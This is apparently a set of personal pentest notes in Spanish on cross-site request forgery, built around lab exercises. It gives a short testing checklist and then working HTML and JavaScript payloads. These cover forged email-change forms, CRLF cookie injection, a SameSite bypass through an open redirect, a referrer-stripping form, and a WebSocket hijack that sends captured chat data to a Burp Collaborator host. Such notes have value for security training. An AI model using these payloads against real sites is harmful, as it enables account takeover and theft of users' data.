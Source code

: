 --  -
## **Cosas a testear**
1. Ver si borrando el csrf token se puede de igual manera modificar los campos CRUD.
2. Cambiar el metodo utilizado y agregar un **`&_method=POST`** para ver de engañar al servidor y sobreescribir el metodo.
3. Probar reutilizando el token de otro usuario sin haber sido utilizado previamente.
4. Intentar eliminando la cabecera referer **`<meta name="referrer" content="no-referrer">`** o modificarla para que sea considerada como valida **`Referrer-Policy: unsafe-url`**.

--- -
## **Payloads**
- Intentamos cargar una imagen la cual intenta hacer un search para así setear como cookie un csrfkey valido y la cookie Samesite=None para que no joda con el tema de los dominios cruzados. La carga de esa imagen va a generar un error, por lo que en ese error subimos el form con todo ya seteado previamente.
```html
<form action="https://URL/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="kike@kike.com" />
    <input type="hidden" name="csrf" value="YuqS3GNMMQ4pMjgJueYf1S5GdHgGV4E3" />
    <input type="submit" value="Submit request" />
</form>

<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=BfSlrsokL2VXRM9P5dfS58XmlkZG9Hzp%3b%20Samesite=None%3b%20Secure" onerror="document.forms[0].submit();">
```

- Aprovechando de un open-redirect para bypassear la restriccion Samesite=Strict
```html
<script>
    location="https://URL/post/comment/confirmation?postId=../my-account/change-email%3femail=juansero@kike.com%26submit=1";
</script>
```

- Exfiltracion de datos mediante el uso de websockets
```javascript
<script>
	var ws = new WebSocket("https://URL/chat");
	
	ws.onopen = function() {
	    ws.send("READY");
	};
	
	ws.onmessage = function(info) {
		    fetch("https://BURP-COLLABORATOR/?data=" + btoa(info.data));
	};
</script>
```

- Explotando CSRF en Oauth arrastrando cookies una vez realizando la solicitud al endpoint correspondiente para que nos las asigne.
```html
<form action="https://0ac900850465cb0e857b7763005c00bf.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="kike@kike.com" />
  <input type="submit" value="Submit request" />
</form>


<script>
  window.open("https://0ac900850465cb0e857b7763005c00bf.web-security-academy.net/social-login");
  setTimeout(updateEmail,5000);
  function updateEmail(){
      document.forms[0].submit();
  }
</script>


```

- Eliminando cabecera Referrer
```html
<html>
<head>
    <meta name="referrer" content="no-referrer">
</head>
<form class="login-form" name="change-email-form" action="https://URL/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@pwned.com">
</form>

<script>
    document.forms[0].submit();
</script>
</html>

```